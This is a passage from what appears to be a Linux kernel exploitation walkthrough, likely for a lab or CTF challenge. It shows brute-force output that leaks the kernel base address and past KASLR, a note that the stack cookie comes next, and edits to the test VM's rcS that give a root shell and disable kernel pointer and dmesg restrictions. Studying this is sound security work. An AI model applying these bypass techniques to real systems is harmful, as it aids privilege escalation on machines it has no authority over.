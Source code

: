     Possible Kernel Base Address: ffffffff86300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff86f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff87f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff88800000 ==> Leak: 4802003f51258d48
    Kernel Base: ffffffff88800000

Now we need to leak the stack cookie, doing this is quite tricky, but when done the exploit is like 50% done!
Let's look at the kernel with some more privilege, let's modify `etc/init.d/rcS` in this way

    setsid cttyhack setuidgid 0 sh --login
    echo 0 > /proc/sys/kernel/kptr_restrict
    echo 0 > /proc/sys/kernel/perf_event_paranoid
    echo 0 > /proc/sys/kernel/dmesg_restrict

To compress the initramfs I wrote this bash script


    cd initramfs
    find . -print0 \
    | cpio --null -ov --format=newc > initramfs.cpio
    mv ./initramfs.cpio ../.
